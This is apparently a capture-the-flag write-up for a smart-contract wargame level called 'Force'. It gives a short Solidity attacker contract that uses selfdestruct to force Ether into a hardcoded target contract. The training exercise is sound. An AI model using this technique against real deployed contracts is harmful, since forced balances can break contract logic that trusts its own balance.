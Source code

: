 # Level 7 - Force

- Source code is not shared.
- Force contract to receive tokens.
- Self destruct maybe? YES

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttacker {
    address target = 0x66abf46F6f6A2aaAD82691F7C819746E570782C8;
    
    constructor() payable {

    }

    function attack() public {
        selfdestruct(payable(target));
    }
}
```